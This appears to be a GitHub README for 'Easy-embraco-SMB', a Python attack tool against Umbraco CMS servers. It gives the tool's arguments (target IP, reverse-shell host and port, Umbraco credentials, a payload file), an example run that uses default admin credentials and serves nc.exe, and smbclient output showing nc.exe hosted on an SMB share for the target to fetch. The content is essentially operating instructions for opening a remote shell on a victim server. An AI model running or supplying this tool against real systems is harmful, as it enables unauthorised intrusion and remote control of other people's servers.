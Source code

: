 # Easy-embraco-SMB

## Command line arguments
Easy-embraco-SMB.py [-h] --target TARGET --host HOST [--port PORT] [--load LOAD] --user USER --passw PASSW

optional arguments:\
  \-h, \-\-help            show this help message and exit\
  \--target TARGET, \-t TARGET Target IP address\
  \--host HOST, \-x HOST  IP for reverse shell\
  \--port PORT, \-p PORT  Port for reverse shell\
  \--load LOAD, \-l LOAD  Path to file or script to provide to the public\
  \--user USER, \-P USER  User name for Umbraco\
  \--passw PASSW, \-U PASSW  Password for Umbraco\


## Example usage
sudo python3 Easy-embraco-SMB.py --target 0.0.0.0 --host 0.0.0.0 --port 4444 --user admin@admin.com --pass admin --load ./nc.exe

## Confirmation SMB is hosting our nc.exe file
sudo smbclient -H \\\\127.0.0.1\\share\

dir\

smb: \> dir\
  .                                   D\
  ..                                  D\
  nc.exe                              N\
